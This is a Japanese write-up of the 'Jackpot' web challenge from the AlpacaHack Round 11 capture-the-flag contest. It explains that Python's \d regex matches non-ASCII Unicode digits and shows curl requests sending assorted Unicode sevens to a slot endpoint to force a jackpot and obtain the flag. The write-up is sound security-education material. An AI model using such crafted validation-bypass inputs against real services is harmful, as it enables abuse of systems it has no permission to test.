

<!-- titleは自動で入る -->

[AlpacaHack Round 11 (Web) - AlpacaHack](https://alpacahack.com/ctfs/round-11) に参加しました。
[certificates](https://alpacahack.com/ctfs/round-11/certificates/metro): 1完で、順位は25th/213でした。

# Jackpot

配られたソースコードのうち、Dockerfileやcomposeファイルを読みます。
バックエンドはPythonのようです。

- 環境変数にFLAGというのがあり、そこにフラグがある
- 3000番でローカルで立つ



手元で立ちあげて `http://localhost:3000` にアクセス。こんな感じの見た目です。

コードを読んで処理内容を把握します。

- 数字を入れて、slotボタンをクリック
- `/slot?candidates=${入れた番号}` が送られる
- validation処理
  - `value` が `None` はない
  - `re.fullmatch()` で数字に一致する
  - `value` の長さは10以上
- `random.choice` で10文字以上の数字から15回選択を行い、15個全てが `7` ならFLAGが手に入る

`\d` について調べてみました。

> Unicode (str) パターンでは:
> 任意の Unicode 10 進数字 (Unicode 文字カテゴリ [Nd])にマッチします。これは [0-9] とその他多数の数字を含みます。
> 
> ASCII フラグを使用すると [0-9] にマッチします。
> 
> 8 ビット (bytes) パターンでは:
> 任意のASCII文字の 10 進数字にマッチします。これは [0-9] と等価です。
> ref. https://docs.python.org/ja/3.13/library/re.html

どうやらNdというものを調べたら良さそうです。

[Unicodeにある数字の一覧 \| hydroculのメモ](https://hydrocul.github.io/wiki/blog/2015/1129-unicode-general-category-number.html) を見つつ、Python3のREPLで検証します。

```console
>>> a = '\u0660' # 0 in ARABIC-INDIC
>>> a
'٠'
>>> not re.fullmatch(r"\d+", a)
False
>>> a = "abc"
>>> not re.fullmatch(r"\d+", a)
True
```

行けてそうです。
送ってみます。

```console
$ value=$(echo -e '\u0660\u06f0\u07C0\u0966\u09E6\u0A66\u0AE6\u0B66\u0BE67') # 色々な0と、最後に7

$ curl "http://localhost:3000/slot?candidates=$value"                       
{"code":200,"flag":null,"isJackpot":false,"results":[0,0,7,0,0,0,0,7,0,0,0,0,0,0,0]}
```

どうやら色々な7を送れば良さそうです。

```console
$ value=$(echo -e '\u0667\u06f7\u07C7\u096d\u09Ed\u0A6d\u0AEd\u0B6d\u0BEd7')

$ curl "http://localhost:3000/slot?candidates=$value"                       
{"code":200,"flag":"Alpaca{REDACTED}","isJackpot":true,"results":[7,7,7,7,7,7,7,7,7,7,7,7,7,7,7]}

$ curl "http://[remote server ip]/slot?candidates=$value" # フラグゲット
```

以上でフラグが得られました。
